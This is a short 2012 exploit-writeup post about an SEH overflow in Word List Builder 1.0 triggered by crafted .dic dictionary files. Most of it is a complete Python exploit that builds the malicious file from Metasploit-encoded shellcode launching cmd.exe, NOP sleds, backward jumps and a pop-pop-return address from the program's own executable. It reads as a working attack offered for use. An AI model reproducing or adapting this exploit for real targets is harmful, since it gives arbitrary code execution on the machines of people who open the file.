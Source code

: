 Word List Builder .dic File Parsing SEH Overflow
================================================
date: 02/Sep/2012
summary: Word List Builder SEH overflow via a pop-pop-return overwrite and negative jumps.
tags: code, exploit

The Word List Builder version 1.0 has a SEH overflow vulnerability. Processing specially-crafted `.dic` dictionary files triggers a SEH overwrite that could be leveraged further to gain arbitrary code execution. The exploit for this vulnerability has been documented at [EDB: 17086](http://www.exploit-db.com/exploits/17086/)

Here is a complete rewrite of this exploit:

```python
from struct import *

file = "edb17086.dic"

# msfpayload windows/exec CMD=cmd.exe R | msfencode -b '\x00\x0a\x0d' -t perl
# [*] x86/shikata_ga_nai succeeded with size 226 (iteration=1)

cmmd = ("\xda\xd5\xb8\x4f\xc1\x95\xae\xd9\x74\x24\xf4\x5a\x29\xc9" +
"\xb1\x32\x83\xc2\x04\x31\x42\x16\x03\x42\x16\xe2\xba\x3d" +
"\x7d\x27\x44\xbe\x7e\x58\xcd\x5b\x4f\x4a\xa9\x28\xe2\x5a" +
"\xba\x7d\x0f\x10\xee\x95\x84\x54\x26\x99\x2d\xd2\x10\x94" +
"\xae\xd2\x9c\x7a\x6c\x74\x60\x81\xa1\x56\x59\x4a\xb4\x97" +
"\x9e\xb7\x37\xc5\x77\xb3\xea\xfa\xfc\x81\x36\xfa\xd2\x8d" +
"\x07\x84\x57\x51\xf3\x3e\x56\x82\xac\x35\x10\x3a\xc6\x12" +
"\x80\x3b\x0b\x41\xfc\x72\x20\xb2\x77\x85\xe0\x8a\x78\xb7" +
"\xcc\x41\x47\x77\xc1\x98\x80\xb0\x3a\xef\xfa\xc2\xc7\xe8" +
"\x39\xb8\x13\x7c\xdf\x1a\xd7\x26\x3b\x9a\x34\xb0\xc8\x90" +
"\xf1\xb6\x96\xb4\x04\x1a\xad\xc1\x8d\x9d\x61\x40\xd5\xb9" +
"\xa5\x08\x8d\xa0\xfc\xf4\x60\xdc\x1e\x50\xdc\x78\x55\x73" +
"\x09\xfa\x34\x1e\xcc\x8e\x43\x67\xce\x90\x4b\xc8\xa7\xa1" +
"\xc0\x87\xb0\x3d\x03\xec\x4f\x74\x09\x45\xd8\xd1\xd8\xd7" +
"\x85\xe1\x37\x1b\xb0\x61\xbd\xe4\x47\x79\xb4\xe1\x0c\x3d" +
"\x25\x98\x1d\xa8\x49\x0f\x1d\xf9\x2a\xc2\x85\x2c\xc9\x64" +
"\x23\x31")

nop1 = "\x90"*3777
nop2 = "\x90"*100
jmp2 = "\xE9\xA8\xFD\xFF\xFF" # near jump (back) 600B (0xFFFFFDA8)
nseh = pack ('<I', 0x90909CEB)# short jump (back) 100B (0xFF9C)
cseh = pack ('<I', 0x0040143C)# p/p/r 0040143C Word_Builder.exe

sploit = nop1+cmmd+nop2+jmp2+nseh+cseh
#3777 226  100  544

try:
handle = open (file, 'w')
handle.write (sploit)
handle.close ()
print "[+] sploit ready: " + file + " (" + str (len (sploit)) + "B)"
except:
print "[-] exception!"
```
